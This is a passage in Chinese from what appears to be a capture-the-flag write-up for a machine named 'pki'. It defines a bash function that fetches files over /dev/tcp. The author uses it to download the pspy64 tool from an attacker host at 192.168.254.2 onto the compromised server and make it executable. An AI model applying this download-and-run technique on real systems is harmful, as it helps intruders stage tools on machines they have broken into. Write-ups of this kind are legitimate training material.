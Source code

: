 只需复制其中一个示例并粘贴到 pki 服务器上的 shell 中:

```
function _get() {
    read proto server path <<<$(echo ${1//// })
    DOC=/${path// //}
    HOST=${server//:*}
    PORT=${server//*:}
    [[ x"${HOST}" == x"${PORT}" ]] && PORT=80
    exec 3<>/dev/tcp/${HOST}/$PORT
    echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
    (while read line; do
        [[ "$line" == $'\r' ]] && break
    done && cat) <&3
    exec 3>&-
}
```

现在我们可以使用这个函数:

```
www-data@pki:/tmp$ _get http://192.168.254.2:8000/pspy64 > pspy64
_get http://192.168.254.2:8000/pspy64 > pspy64

www-data@pki:/tmp$ ls -lsa p*
ls -lsa p*
3008 -rw-r--r-- 1 www-data www-data 3078592 Nov  6 20:47 pspy64

www-data@pki:/tmp$ chmod +x pspy64
```

# Pspy64

我们复制了 pspy64 并使其可执行，现在我们运行它，让它监视我们正在做的事情:

![](img/4fae8a0edfaed3fb974ddf0e5db77c7d.png)
